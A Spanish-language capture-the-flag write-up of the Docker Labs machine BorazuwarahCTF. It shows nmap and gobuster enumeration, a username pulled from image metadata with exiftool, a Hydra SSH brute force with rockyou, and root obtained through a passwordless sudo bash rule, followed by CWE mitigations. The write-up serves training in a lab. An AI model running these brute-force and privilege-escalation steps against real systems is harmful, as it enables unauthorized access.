

| Plataforma          | Docker Labs |
| ------------------- | ----------- |
| Dificultad          | Muy Fácil   |
| IP de la Máquina    | 172.17.0.2  |
| Fecha de resolución | 03/10/2026  |

---
# 📑 WRITEUP: BORAZUWARAHCTF

> ℹ️ ****RESUMEN EJECUTIVO****
> - **IP Objetivo:** `172.17.0.2`
> - **Sistema Operativo:** Linux 🐧
> - **Descripción:** Laboratorio para practicar estaganografía y fuerza bruta contra protocolos de red. 🔑
> - **Privilegios Obtenidos:** `root` 👑

---

## 🎯 FASE 1: RECONOCIMIENTO Y ENUMERACIÓN

### 💻 Conectividad Inicial
Determinamos el Sistema Operativo analizando el Time To Live (TTL) mediante un paquete ICMP:
```bash
ping -c 1 172.17.0.2
```


* **Diagnóstico:** TTL = `64`. Confirmamos directamente que es un entorno **Linux**.

### 🔍 Mapeo de Puertos y Servicios
Lanzamos un escaneo con **Nmap** para mapear los puertos abiertos y descubrir sus servicios.


| Puerto   | Servicio | Versión Detectada   | Estado / Nota                             |
| :------- | :------- | :------------------ | :---------------------------------------- |
| `22/TCP` | SSH      | OpenSSH 9.1p1       | 🔐 Punto de acceso mediante credenciales  |
| `80/TCP` | HTTP     | Apache httpd 2.4.59 | 🌐 Servidor Web Activo (Análisis Inicial) |

#### Comando de Nmap utilizado:
```bash
sudo nmap -p- -sS -sV --min-rate 5000 -n -Pn --open 172.17.0.2
```

---

## ⚡ FASE 2: EXPLOTACIÓN (ACCESO INICIAL)

### 🌐 Auditoría Web y Descubrimiento
Al ingresar a `http://172.17.0.2`, encontramos una página web básica. Realizamos un fuzzing de directorios para encontrar rutas ocultas o archivos expuestos:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x html,txt,jpg,png
```


Pero no encontramos nada de mucha utilidad, por lo cual  ingresamos nuevamente la IP en el navegador.


Nada que nos llame la atención, por lo cual revisamos el código fuente de la Web para encontrar:

```html
<html>
<body>
> ⚠️ *La imagen `imagen.jpeg` referenciada en la nota original no estaba incluida en el ZIP.*
</body>
</html>
```

Al contar solo con la imagen, pasamos a la siguiente opción.
### 🖼️ Extracción de Información Oculta (Metadatos)

Solo nos queda descargamos la imagen y con Exiftool verificar información oculta en la imagen:

```
exiftool Untitled.jpeg
```


>[!Success] Usuario Identificado
>Podemos ver que el análisis sobre la imagen revelaron el usuario `borazuwarah`

### 💥 Explotación por fuerza bruta

Al contar con el usuario `borazuwarah` procedemos a un ataque de fuerza bruta mediante la herramienta Hydra:
```bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```


>[!Success] Contraseña expuesta
>El ataque fue exitoso y ahora contamos con la contraseña del usuario `borazuwarah`, `123456`

### 🔑 Intrusión por SSH
Con las credenciales obtenidas de los metadatos y el ataque mediante Hydra, efectuamos el acceso inicial por el puerto 22:

```bash
ssh borazuwarah@172.17.0.2
```


---

## 👑 FASE 3: ESCALADA DE PRIVILEGIOS

Estando autenticados dentro del sistema con el usuario `borazuwarah`, el objetivo final consiste en escalar privilegios hasta convertirnos en administradores.

### 🕵️ Análisis de Permisos de Comando (`sudo -l`)
Validamos qué comandos puede ejecutar nuestro usuario actual con permisos elevados sin que se requiera la contraseña del root:
```bash
sudo -l
```


> ✅ **Vulnerabilidad encontrada**
> El usuario puede ejecutar /bin/bash como root SIN password

Procedemos a ejecutar el siguiente comando:

```
sudo bash
```

Comprobamos que hemos alcanzado el éxito en la terminal con:
```bash
whoami
```



```bash
# Output obtenido de la consola:
root
```

> ✅ ****MÁQUINA COMPLETADA****
> La máquina **BorazuwarahCTF** ha sido totalmente comprometida. Conseguimos acceso administrativo completo tras pivotar de la web a los metadatos y abusar de una mala configuración en los permisos `sudo`.

---

## 🛠️ FASE 4: VULNERABILIDADES Y MITIGACIONES

>[!Danger] CWE-250

>[!Danger] Crítica
>Poder ejecutar /bin/bash como cualquier usuario sin contraseña es una shell de root. 

>[!Todo] Mitigación 
>Evitar asignar permisos `sudo NOPASSWD` a comandos de sistema que posean funcionalidades nativas para spawnear shells o leer archivos arbitrarios.

>[!Warning] CWE-521

>[!Warning] Alta
> El usuario utiliza una contraseña extremadamente simple (123456) y fácilmente accesible por SSH mediante fuerza bruta

>[!Todo] Mitigación
>Utilizar contraseñas de gran longitud, bloqueo de intentos y sistema de autenticación para las contraseñas. 

>[!Warning] CWE-200

>[!Warning] Alta
>Los metadatos conseguidos de la herramienta Exiftool de la imagen publicada filtran un nombre de usuario válido `borazuwarah`.

>[!Todo] Mitigación
>Cualquier recurso estático subido a un servidor web público debe pasar por un proceso de sanitización para eliminar cadenas de texto, nombres o credenciales en sus metadatos.
